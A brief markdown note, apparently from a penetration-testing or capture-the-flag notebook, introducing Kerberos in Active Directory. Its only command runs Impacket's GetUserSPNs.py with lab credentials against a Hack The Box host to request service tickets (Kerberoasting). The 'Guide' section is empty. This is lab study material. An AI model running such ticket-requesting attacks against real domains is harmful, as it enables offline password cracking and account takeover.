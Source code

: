 ```yaml
---
tags:
  - Enumeration
  - TCP
  - Kerberos
aliases:
  - Kerberos
---
```

[Kerberos](https://web.mit.edu/kerberos/) is a network level authentication protocol. In modern times, we are most likely to see it when dealing with Active Directory authentication when clients request tickets for authorization to use domain resources.

# Guide



# Known Credentials 

```
python GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
```